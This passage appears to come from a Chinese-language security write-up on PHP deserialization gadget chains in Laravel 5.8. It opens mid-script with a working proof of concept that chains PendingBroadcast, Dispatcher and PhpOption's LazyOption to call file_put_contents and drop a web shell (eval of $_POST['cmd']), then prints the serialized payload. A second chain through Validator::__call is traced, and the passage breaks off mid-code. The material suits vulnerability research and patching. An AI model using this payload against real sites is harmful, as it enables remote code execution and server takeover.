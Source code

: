 ```
        }
    }
}
namespace PhpOption{
    final class LazyOption{
        private $callback;
        private $arguments;
        public function __construct($callback, $arguments)
{
            $this->callback = $callback;
            $this->arguments = $arguments;
        }
    }
}
namespace {
    $d = new PhpOption\LazyOption("file_put_contents", ["shell.php", "<?php eval(\$_POST['cmd']) ?>"]);
    $c = new Illuminate\Broadcasting\BroadcastEvent('whoami');
    $b = new Illuminate\Bus\Dispatcher(array($d,"filter"));
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, $c);
    print(urlencode(serialize($a)));
}
```

## 链二

入口同样是

```
public function __destruct()
{
        $this->events->dispatch($this->event);
    }
```

这里转换思路，找某个类没有实现dispatch方法却有__call方法，这里就可以直接调用，找到

```
laravel5.8\vendor\laravel\framework\src\Illuminate\Validation\Validator.php
```

```
 class Validator implements ValidatorContract
{
    ...
public function __call($method, $parameters)
{
        $rule = Str::snake(substr($method, 8));

        if (isset($this->extensions[$rule])) {
            return $this->callExtension($rule, $parameters);
        }
这里的$method是固定的字符串dispatch，传到$rule的时候为空，然后$this->extensions可控
跟踪进callExtension方法
protected function callExtension($rule, $parameters)
{
        $callback = $this->extensions[$rule];

        if (is_callable($callback)) {
            return call_user_func_array($callback, $parameters);
```

